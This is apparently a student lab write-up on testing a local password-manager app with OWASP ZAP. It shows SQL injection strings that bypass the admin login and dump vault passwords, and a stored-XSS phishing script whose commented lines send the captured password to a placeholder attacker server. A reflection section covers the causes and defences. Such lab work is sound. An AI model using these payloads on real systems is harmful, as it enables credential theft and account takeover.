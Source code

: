 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of the most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

We’ll:
- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.
**Log in as Admin without using their password**
5. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
6. Explore pages, and logout.
7. Login as the Admin without a password using a similar approach. Admin’ --#
8. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**
9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**
12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="100%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*

## Reflection
These attacks occurred due to improper input validation and output encoding. The **application is vulnerable** to SQL injection because user input like usernames and passwords (login.php), data added to vaults (vault_details.php) is **directly linked to SQL queries without being properly sanitized or parameterized**. The application treats user input as part of executable SQL code, allowing attackers to **inject malicious commands to alter the database**. Although it didn’t explicitly show in the ZAP alert log, in theory this application is also vulnerable to XSS shown by the pop up attack, where user given data is stored in the database without proper sanitization. When this stored data is later retrieved and displayed in the browser it fails to run adequate output encoding. The browser interprets the malicious embedded JS as executable code and runs the script.

The concepts that relate most to this lab are: **input validation, output encoding, POLP, defense in depth**. Input validation emphasizes that all user input should be validated and sanitized at the point of entry to ensure it obeys the expected formats, yet both SQL injection and XSS fail to implement robust input validation. Applying **Zero Trust, “never trust, always identify”**, data from untrusted sources(user inputs) should be properly encoded to confirm injected scripts are treated as data not active code. POLP decreases the attack surface by granting minimum access needed to perform tasks. This relates to when the Admin login was bypassed with queries, granting excessive privileges. Another way to **harden the password application is to implement multiple security controls**. If input validation fails, output coding could have served as a secondary defence against XSS.

**FancyBear**, a state sponsored Russian spy hacker group, was found targeting Ukraine related organizations since 2023 by **exploiting cross site scripting in vulnerable webmail servers(Roundcube). The attack injects malicious JS payloads into email messages**, so when victims like government entities open them the hidden JS executes. This allows attackers to steal confidential information(contacts, email content) leading to data theft and spying through client side code injection.
A similar XSS attack can be done on the password application by exploiting the stored XSS vulnerability in the vault details functionality. The vault_details.php file is susceptible because it directly stores user supplied input (Notes field) into the database without proper sanitization, and renders the content back into the user’s browser without output encoding. Like demonstrated above an attacker could inject a malicious JS payload into the password editor Notes field. When another user views that vault entry the injected script would execute in their browser, mirroring FancyBear’s method. This script could be used to capture the victim's session cookies (session hijacking) or extract sensitive information displayed to transmit it to an attacker server with the user unaware. This shows how unvalidated input and lack of output encoding can transform a harmless text box into a powerful attack point for extracting data and compromising accounts.

<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />
